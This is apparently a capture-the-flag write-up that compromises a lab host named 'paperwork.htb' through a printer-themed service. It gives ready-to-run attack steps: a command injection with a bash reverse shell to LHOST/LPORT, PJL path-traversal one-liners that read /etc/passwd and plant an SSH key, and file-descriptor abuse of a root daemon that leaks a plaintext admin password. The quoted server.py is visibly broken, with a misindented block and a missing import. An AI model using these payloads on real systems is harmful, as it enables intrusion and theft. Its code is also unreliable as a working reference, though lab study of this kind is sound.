

# Enumeration

## Nmap Scan

```bash
Nmap scan report for 10.129.37.3
Host is up (0.073s latency).

PORT     STATE SERVICE        VERSION
22/tcp   open  ssh            OpenSSH 10.0p2 Ubuntu 5ubuntu5.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http           nginx 1.28.0 (Ubuntu)
|_http-title: Did not follow redirect to http://paperwork.htb/
|_http-server-header: nginx/1.28.0 (Ubuntu)
1515/tcp open  ifor-protocol?
| fingerprint-strings: 
|   TerminalServer, TerminalServerCookie: 
|_    Archive_Printer is ready and printing.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1515-TCP:V=7.95%I=7%D=9/9%Time=6AA12827%P=x86_64-pc-linux-gnu%r(Ter
SF:minalServerCookie,27,"Archive_Printer\x20is\x20ready\x20and\x20printing
SF:\.\n")%r(TerminalServer,27,"Archive_Printer\x20is\x20ready\x20and\x20pr
SF:inting\.\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## `paperwork.htb`

Navigating to `http://paperwork.htb`, we are greeted with the following webpage:-


Fig1: `paperwork.htb` website

We can see that its a static page with configuration details for interacting with a printing service. Particularly in the Maintenance Advisory:- “Manual ingestion remains active via the legacy gateway.” Looks interesting.

Also, it looks like we’ve got a download option available for an archive file named `paperwork-archive-v1.02` .

Downloading and unzipping its contents, we’ve got a Python file named [`server.py`](http://server.py) :

```python
import socket
import threading
import subprocess
import subprocess

VALID_QUEUE = os.environ.get("LPD_QUEUE")

class LpdHandler(threading.Thread):

    def __init__(self, sock, addr):
        super().__init__()
        self.sock = sock
        self.addr = addr
        self.id = f"[lpd-{addr[1]}]"

    def run(self):
        try:
            data = self.sock.recv(1024)
            if not data: return
            
            command = data[0]
            
            if command == 2:
                self.handle_print_job(data)
            elif command in (3, 4):
                self.sock.send(b"Archive_Printer is ready and printing.\n")
                
        except Exception as e:
            print(f"{self.id} Error: {e}")
        finally:
            self.sock.close()

    def handle_print_job(self, data):
        queue = data[1:].decode().strip()
        
        if queue not in VALID_QUEUE:
            print(f"{self.id} Rejected: Invalid queue '{queue}'")
            self.sock.send(b'\x01') 
            return
        print(f"{self.id} Accepted job for queue: {queue}")
        while True:
            chunk = self.sock.recv(1024)
            if not chunk: break
            
            subcommand = chunk[0]
            self.sock.send(b'\x00') 
                parts = chunk[1:].decode(errors='ignore').split()
                if not parts: continue
                
                size = int(parts[0])
                content = b""
                while len(content) < size:
                    content += self.sock.recv(size - len(content) + 1)
                
                decoded_content = content.decode(errors='ignore')
                
                job_name = "Unknown"
                for line in decoded_content.split('\n'):
                    line = line.strip()
                    if line.startswith('J'):
                        job_name = line[1:]
                        break
                
                print(f"{self.id} Executing archive for: {job_name}")
                subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
                
                self.sock.send(b'\x00') 
                self.sock.send(b'\x00')
                while self.sock.recv(4096):
                    pass
                break

class LpdServer:

    def __init__(self, ip='0.0.0.0', port=1515):
        self.server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.server.bind((ip, port))
        self.server.listen(100)
        print(f"[*] LPD Server listening on {port}")

    def run(self):
        while True:
            sock, addr = self.server.accept()
            LpdHandler(sock, addr).start()

if __name__ == "__main__":
    LpdServer(port=1515).run()
```

Looks very interesting!

# Line Printer Daemon on Port 1515

If we recall from our earlier `nmap` output:

```bash
1515/tcp open  ifor-protocol?
| fingerprint-strings: 
|   TerminalServer, TerminalServerCookie: 
|_    Archive_Printer is ready and printing.
```

The headers of the custom LPD service, and also the code in [`server.py`](http://server.py) match:- “Archive_Printer is ready for printing”. So it looks like the LPD has been exposed on port 1515, and we’ve just been handed the source code behind the service!

Going through the code closely, we can see that the LPD service expects a series of binary bytes to execute print jobs, and they too must contain specific bytes, most importantly checking for a `queue-name` .

Check the website `paperwork.htb` again:-


Fig2:- Queue name value

From Fig2, we can see that the required `queue_name` should be “archive_intake”.

Interacting with the service with a normal print job sending script:-

```bash
import socket

TARGET = "<MACHINE_IP>"
PORT = 1515
QUEUE = "archive_intake"

job = b"Jtest-job\n"

size = len(job)

s = socket.create_connection((TARGET, PORT))

# Initial LPD command
s.sendall(b"\x02" + QUEUE.encode() + b"\n")

import time
time.sleep(0.2)

s.sendall(b"\x03" + str(size).encode() + b"\n")

# This ACK is sent by the server immediately after parsing the header.
ack = s.recv(1)
print("header ack:", repr(ack))

s.sendall(job)

# Popen() sends two null bytes after processing the content.
ack = s.recv(2)
print("job ack:", repr(ack))

s.shutdown(socket.SHUT_WR)

try:
    while s.recv(4096):
        pass
except:
    pass

s.close()
```

After running the above script, we get a job completion byte ack:-

```bash
header ack: b'\x00'
job ack: b'\x00'
```

## Command Injection Vulnerability

Inspecting [`server.py`](http://server.py) closely, we can see this line:-

```python
subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
```

User input (`job_name`) is directly inserted into a shell command by the service, and then executed to create logs. This looks like a potential command injection vulnerability!

I tried many different `netcat` and `curl` requests, to confirm the command injection, and also many reverse shell payloads, but non received a connect back from the machine.

Finally, tried this payload:-

```bash
bash -c 'bash -i >&/dev/tcp/LHOST/LPORT 0>&1'
```


Fig3:- Successful command injection and Reverse Shell

Succeeded with a reverse shell!

## Enumerating Service User `lp`

We got a reverse shell as the user account `lp`.

```bash
lp@paperwork:/opt/LPDServer$ id
uid=7(lp) gid=7(lp) groups=7(lp)
```

From the `hosts` file, we can see there is another user account called `archivist`, apart from the `root` account.

However as `lp` we are denied access to `archivist` ’s home directory:-

```bash
lp@paperwork:/home$ cd archivist
bash: cd: archivist: Permission denied
```

Enumerating running processes using `ps auxf`, we something different:-


Fig4:- `archivist` context service running internally on port 9100

There is an internal service running in the user `archivist` ’s context. Let us try to send a printer job to that process to see how it responds:-

```python
python3 - <<'PY'
import socket
import time

tests = [
    b'\x1b%-12345X@PJL\r\n',
    b'@PJL\r\n',
    b'@PJL INFO STATUS\r\n',
    b'@PJL INFO ID\r\n',
    b'%!\n',
]

for data in tests:
    print(f"\n[>] {data!r}")
    try:
        s = socket.create_connection(("127.0.0.1", 9100), 3)
        s.settimeout(3)
        s.sendall(data)
        time.sleep(.5)
        try:
            print("[<]", repr(s.recv(8192)))
        except socket.timeout:
            print("[<] no response")
        s.close()
    except Exception as e:
        print("[!]", e)
PY
```

Output:-

```bash
[>] b'\x1b%-12345X@PJL\r\n'
[<] b'OK\r\n'

[>] b'@PJL\r\n'
[<] b'OK\r\n'

[>] b'@PJL INFO STATUS\r\n'
[<] b'OK\r\n'

[>] b'@PJL INFO ID\r\n'
[<] b'HP LASERJET 4ML\r\n'

[>] b'%!\n'
[<] no response
```

The service parses printer PJL (Printer Job Language) commands, and has identified itself as `HP LASERJET 4ML` 

Trying more enumeration through the service, we can see the PJL filesystem is exposed and has the file [`jetdirect.p`](http://jetdirect.py)y` and a `/logs` directory

```bash
b'@PJL FSQUERY NAME="0:"\r\n' -> b'. TYPE=DIR\n.. TYPE=DIR\nlogs TYPE=DIR SIZE=4096\njetdirect.py TYPE=FILE SIZE=5119\r\n'
b'@PJL FSQUERY NAME="0:\\*.*"\r\n' -> b'FILEERROR=1\r\n'
b'@PJL FSDIRLIST NAME="0:" ENTRY=1 COUNT=100\r\n' -> b'. TYPE=DIR\n.. TYPE=DIR\nlogs TYPE=DIR SIZE=4096\njetdirect.py TYPE=FILE SIZE=5119\r\n' 
```

Reading the [`jetdirect.py`](http://jetdirect.py) file:-

```bash
@PJL FSUPLOAD NAME="0:\jetdirect.py" SIZE=5119
#!/usr/bin/env python3
import os
import sys
import socket
import logging
import re
import hashlib

class PJLServer:
    def __init__(self):
        self._server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self._server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    def listen(self, port=9100, backlog=100):
        self._server.bind(("127.0.0.1", port))
        self._server.listen(backlog)
        logging.info("Listening on port %d" % port)

    def accept(self):
        client, addr = self._server.accept()
        logging.info("[%s] connected" % addr[0])
        return PJLClient(client, addr[0])

class PJLClient:
    def __init__(self, client, address):
        self._client = client
        self._address = address

    def get_line(self):
        """Reads until a newline to get a single PJL command."""
        line = b""
        while True:
            char = self._client.recv(1)
            if not char: return None
            line += char
            if char == b"\n": break
        return line

    def reply(self, message):
        if isinstance(message, str):
            message = message.encode("utf-8")
        self._client.sendall(message)

    def close(self):
        self._client.close()

class Filesystem:
    def __init__(self, root_dir):
        self._root = os.path.abspath(root_dir)

    def _translate(self, path):
        clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
        return os.path.normpath(os.path.join(self._root, clean))

    def listdir(self, name=""):
        target = self._translate(name)
        if not os.path.exists(target): return "FILEERROR=1"
        try:
            items = os.listdir(target)
            res = [". TYPE=DIR", ".. TYPE=DIR"]
            for i in items:
                p = os.path.join(target, i)
                res.append(f"{i} TYPE={'DIR' if os.path.isdir(p) else 'FILE'} SIZE={os.path.getsize(p)}")
            return "\n".join(res)
        except: return "FILEERROR=1"

    def read(self, path):
        target = self._translate(path)
        if os.path.isfile(target):
            with open(target, "rb") as f: return f.read()
        return None

    def write(self, path, data):
        target = self._translate(path)
        try:
            os.makedirs(os.path.dirname(target), exist_ok=True)
            with open(target, "wb") as f: f.write(data)
            return "OK"
        except: return "FILEERROR=1"

fs = None

def handle_download(command, client):
    m = re.search(r'NAME\s*=\s*"([^"]+)"\s*SIZE\s*=\s*(\d+)', command, re.I)
    if not m: return "FILEERROR=1"
    path, size = m.group(1), int(m.group(2))
    
    logging.info(f"Receiving file: {path} ({size} bytes)")
    data = b""
    while len(data) < size:
        chunk = client._client.recv(min(size - len(data), 4096))
        if not chunk: break
        data += chunk
    return fs.write(path, data)

def handle_upload(command):
    m = re.search(r'NAME\s*=\s*"([^"]+)"', command, re.I)
    if not m: return "FILEERROR=1"
    path = m.group(1)
    data = fs.read(path)
    if data is None: return "FILEERROR=1"
    header = f'@PJL FSUPLOAD NAME="{path}" SIZE={len(data)}\n'.encode("utf-8")
    return header + data

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <PORT> <ROOT_DIR>")
        sys.exit(1)

    fs = Filesystem(sys.argv[2])
    LOG_FILE = "/home/archivist/printer/logs/commands.log"
    logging.basicConfig(
        level=logging.INFO,
        format="%(message)s",
        handlers=[
            logging.FileHandler(LOG_FILE),
            logging.StreamHandler(sys.stdout)
        ]
    )
    server = PJLServer()
    server.listen(int(sys.argv[1]))

    while True:
        client = server.accept()
        while True:
            line_bytes = client.get_line()
            if not line_bytes: break
            
            # Filter protocol noise
            if b"@" not in line_bytes: continue
            line = line_bytes[line_bytes.find(b"@"):].decode("utf-8", errors="ignore").strip()
            
            if not line.startswith("@PJL"): continue
            logging.info(f"Command: {line}")

            if "FSDOWNLOAD" in line.upper():
                res = handle_download(line, client)
                client.reply(res + "\r\n")
            elif "FSUPLOAD" in line.upper():
                res = handle_upload(line)
                client.reply(res)
            elif "FSDIRLIST" in line.upper() or "FSQUERY" in line.upper():
                m = re.search(r'NAME\s*=\s*"([^"]+)"', line, re.I)
                res = fs.listdir(m.group(1) if m else "0:/")
                client.reply(res + "\r\n")
            elif "INFO ID" in line.upper():
                client.reply("HP LASERJET 4ML\r\n")
            elif "INFO FILESYS" in line.upper():
                client.reply("VOLUME TOTAL SIZE FREE SPACE LOCATION LABEL STATUS\n0:     1755136    1718272    <HT>     <HT>  READ-WRITE\r\n")
            elif "ECHO" in line.upper():
                client.reply(line + "\r\n")
            else:
                client.reply("OK\r\n")
        client.close()
```

Sweet!

### Directory Traversal

The function `_translate` :

```python
def _translate(self, path):
    clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
    return os.path.normpath(os.path.join(self._root, clean))
```

The code has tried to confine access to `/home/archivist/printer/` but never verifies that the normalized result remains underneath that directory.

Testing if directory traversal is working by trying to read the `/etc/passwd` :

```python
python3 -c 'import socket; p="0:/../../../etc/passwd"; s=socket.create_connection(("127.0.0.1",9100)); s.sendall(f"@PJL FSUPLOAD NAME=\"{p}\"\r\n".encode()); s.settimeout(2); d=b""; exec("while 1:\n try:\n  x=s.recv(4096)\n  if not x: break\n  d+=x\n except: break"); print(d.decode(errors="replace"))'
```


Fig5:- Directory Traversal confimed!

And directory traversal is confirmed!

## Dropping SSH Pub Key Through Arbitrary Write

Also, from the `write` function, we have arbitrary file write as the user `archivist` too:-

```python
def write(self, path, data):
        target = self._translate(path)
        try:
            os.makedirs(os.path.dirname(target), exist_ok=True)
            with open(target, "wb") as f: f.write(data)
            return "OK"
        except: return "FILEERROR=1"
```

Let us generate a public key and drop it in the `authorized_keys` directory inside the `.ssh` directory of `archivist` :

```python
ssh-keygen -t ed25519 -f archivist_key -N ''
```

Let us write now the generated public key using the command:-

```python
python3 -c 'import socket; p="0:/../../../home/archivist/.ssh/authorized_keys"; k=b"PASTE_YOUR_PUBLIC_KEY_HERE\n"; s=socket.create_connection(("127.0.0.1",9100)); s.sendall(f"@PJL FSDOWNLOAD NAME=\"{p}\" SIZE={len(k)}\r\n".encode()+k); print(s.recv(1024)); s.close()'
```

After writing the key, let us SSH in as `archivist` 


Fig6:- SSH Shell as `archivist`

# Privilege Escalation

Earlier when I inspected running processes, I noticed a particular process:-

```python
root        1503  0.0  0.4  28448 18368 ?        Ss   04:23   0:00 /usr/bin/python3 /usr/bin/paperwork-daemon
```

Checking perms of `/usr/bin/paperwork-daemon` :

```bash
-rw-r--r-- 1 root root 2103 Mar 12  2026 /usr/bin/paperwork-daemon
```

Ok we have read perms; let us try to read `paperwork-daemon` :

```python
#!/usr/bin/python3
import socket, os, array, hashlib
import zipfile
import shutil

try:
    admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)
except Exception:
    os._exit(1)

LOG_PATH = "/home/archivist/printer/logs/commands.log"

def get_admin_secret():
    data = os.pread(admin_fd, 1024, 0).decode().strip()
    if "ADMIN_PASSWORD=" in data:
        return data.split("ADMIN_PASSWORD=")[1].split("\n")[0]
    return data

def scan_for_malice():
    if not os.path.exists(LOG_PATH):
        return False
    with open(LOG_PATH, 'r') as f:
        content = f.read().upper()
        if any(trigger in content for trigger in ["FSQUERY", "FSUPLOAD", "FSDOWNLOAD"]):
            return True
    return False

def trigger_lockdown(conn):
    try:
        log_fd = os.open(LOG_PATH, os.O_RDONLY)
        evidence_bundle = array.array("i", [log_fd, admin_fd])
        msg = b"ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED."
        conn.sendmsg([msg], [(socket.SOL_SOCKET, socket.SCM_RIGHTS, evidence_bundle)])

        zip_path = "/root/quarantine/evidence.zip"
        with zipfile.ZipFile(zip_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
            zipf.write(LOG_PATH, arcname="commands.log")

        with open(LOG_PATH, 'w') as f:
            f.truncate(0)

        os.close(log_fd)
    except:
        pass

def main():
    socket_path = "/run/paperwork/mgmt.sock"
    if os.path.exists(socket_path): os.remove(socket_path)
    if not os.path.exists("/run/paperwork"): os.makedirs("/run/paperwork")

    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.bind(socket_path)
    os.chmod(socket_path, 0o660)
    os.chown(socket_path, 0, 1000) 
    s.listen(5)

    while True:
        conn, _ = s.accept()
        
        if scan_for_malice():
            trigger_lockdown(conn)
        else:
            secret = get_admin_secret()
            token = hashlib.sha256(f"SYSTEM_CLEAN:{secret}".encode()).hexdigest()
            conn.sendall(f"STATUS: SYSTEM_CLEAN\nSIGNATURE: {token}\n".encode())
            
        conn.close()

if __name__ == "__main__":
    main()
```

### root through `paperwork-daemon`

The daemon opens a sensitive configuration file as root when it starts:

`admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)`

The daemon opens `/etc/paperwork/admin_pins.conf` as root and monitors:

```
/home/archivist/printer/logs/commands.log
```

If the log contains `FSQUERY`, `FSUPLOAD`, or `FSDOWNLOAD`, it enters a lockdown routine and sends two file descriptors to the connected client using `SCM_RIGHTS`.

Since `archivist` owned `/run/paperwork/mgmt.sock`, I triggered the condition by sending a PJL `FSQUERY` command to the local printer service, then connected to the management socket and received the file descriptors.

The second descriptor provided the contents of:

`/etc/paperwork/admin_pins.conf` which contained the password:-

`ADMIN_PASSWORD=ApparelMortuaryCedar22` 

Tried using the password to `su` to root.


Fig7:- `root` achieved.

`pwned`

# Learnings

- `subprocess.Popen(cmd, shell=True)` inherits whatever `/bin/sh` is on that box, and `sh` is frequently *not* bash and lacks bash-only features (`/dev/tcp`, arrays, `[[`, process substitution, etc). Anything relying on a bash-specific mechanism needs an explicit `bash -c` wrapper to guarantee it's actually bash parsing the string, regardless of what the system's default shell symlink points to.